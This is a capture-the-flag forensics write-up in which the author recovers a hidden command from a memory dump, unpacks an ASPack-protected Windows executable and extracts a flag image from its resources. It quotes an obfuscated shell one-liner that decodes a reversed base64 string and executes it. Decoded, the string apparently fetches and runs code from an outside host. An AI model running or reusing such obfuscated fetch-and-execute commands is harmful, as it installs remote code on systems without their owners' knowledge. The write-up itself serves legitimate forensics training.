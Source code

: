 # Memdump (Forensics, 400)

> We trying to capture the flag too! But that's what it left for us.

In this task we ware given a memdump2.xz containing about 132MB

During the searching file I found interesting line:
```
echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
```

After running this in console I get PE file:
```
out: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```

I found out at file was protected by ASpack:
```
00 00 00 00 00 00 10 00  2e 74 65 78 74 00 00 00  |.........text...|
00 10 00 00 00 10 00 00  00 02 00 00 00 06 00 00  |................|
00 00 00 00 00 00 00 00  00 00 00 00 60 00 00 e0  |............`...|
2e 64 61 74 61 00 00 00  00 10 00 00 00 20 00 00  |.data........ ..|
00 02 00 00 00 08 00 00  00 00 00 00 00 00 00 00  |................|
00 00 00 00 40 00 00 c0  2e 72 73 72 63 00 00 00  |....@....rsrc...|
00 10 00 00 00 30 00 00  00 0e 00 00 00 0a 00 00  |.....0..........|
00 00 00 00 00 00 00 00  00 00 00 00 40 00 00 c0  |............@...|
2e 61 73 70 61 63 6b 00  00 20 00 00 00 40 00 00  |.aspack.. ...@..|
00 12 00 00 00 18 00 00  00 00 00 00 00 00 00 00  |................|
00 00 00 00 60 00 00 e0  2e 61 64 61 74 61 00 00  |....`....adata..|
```

Ollydbg + OllyDumpEx Plugin + ImportREC let me unpack file (Unpacking was aldo passible using FUU)
In the file section .rsrc was easy to seen string "FLAG IMG", was there also png magic numbers

![hex.png](hex.png)

Separation png image from file give us flag and 400 points

![flag.png](flag.png)

    SharifCTF{39057E5702F8167AA641CA9AD7E9A15E}
